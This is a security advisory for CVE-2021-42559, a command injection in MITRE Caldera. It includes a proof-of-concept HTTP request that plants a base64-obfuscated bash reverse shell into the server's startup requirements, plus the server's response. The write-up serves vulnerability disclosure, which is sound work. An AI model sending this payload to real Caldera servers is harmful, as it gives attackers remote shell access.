

# CVE-2021-42559: Command Injection Via Configurations in MITRE Caldera

Caldera (versions <=2.8.1) contains multiple startup "requirements" that execute commands when starting the server. Because these commands can be changed via the Rest API, an authenticated user can insert arbitrary commands that will execute when the server is restarted.
<br/>

### Software:

The MITRE Caldera software can be found [here](https://github.com/mitre/caldera).

### Requirements:

This vulnerability requires:
<br/>
- Valid user credentials

### Proof Of Concept:

We use the following HTTP request in order to change the command for the "go" requirement to execute a reverse shell:
<br/>

Request:
```
POST /api/rest HTTP/1.1
Host: 192.168.243.180:8888
Content-Type: application/json
Content-Length: 307 
Cookie: API_SESSION="gAAAAABfkzOeJGqWz0pgDyaZ16BdFmuQzOenIthJ6XI9pgdt38mOPFYVv1ghN3NOjo5ZAEv934xzRKXehT35Msve_JHBMaPMyFY2JAFtYtCoU6jGLC7Bz8XBAoH9SArDdi3oTSVkAMl7rRu17YM-O6QBqO81XZya_g=="

{"index":"configuration","prop":"requirements","value":{"go": {"command": "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMjcuMC4wLjEvNDQ0NCAwPiYx}|{base64,-d}|{bash,-i}", "type": "installed_program", "version": 1.11}, "python": {"attr": "version", "module": "sys", "type": "python_module", "version": "3.6.1"}}}
```

Response:
```
HTTP/1.1 200 OK
Content-Type: application/json; charset=utf-8
Content-Length: 1090
Date: Fri, 23 Oct 2020 19:52:20 GMT
Server: Python/3.6 aiohttp/3.6.2
Connection: close

{"ability_refresh": 60, "api_key_blue": "aH***TRUNCATED***TU", "api_key_red": "Qv***TRUNCATED***M4", "app.contact.gist": "API_KEY", "app.contact.http": "http://0.0.0.0:8888", "app.contact.tcp": "0.0.0.0:7010", "app.contact.udp": "0.0.0.0:7011", "app.contact.websocket": "0.0.0.0:7012", "crypt_salt": "yz***TRUNCATED***Hw", "encryption_key": "0C***TRUNCATED***lw", "exfil_dir": "/tmp", "host": "0.0.0.0", "plugins": ["access", "atomic", "compass", "debrief", "fieldmanual", "gameboard", "manx", "response", "sandcat", "stockpile", "training", "ssl"], "port": 8888, "reports_dir": "/tmp", "requirements": {"go": {"command": "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMjcuMC4wLjEvNDQ0NCAwPiYx}|{base64,-d}|{bash,-i}", "type": "installed_program", "version": 1.11}, "python": {"attr": "version", "module": "sys", "type": "python_module", "version": "3.6.1"}}, "users": {"blue": {"blue": "po***TRUNCATED***5Y"}, "red": {"red": "mS***TRUNCATED***mM"}}}
```

When the server is closed the config changes will be permanently saved to "config/local.yml" and when the server is restarted the command will be executed resulting in a reverse shell (in this case on port 4444 localhost):


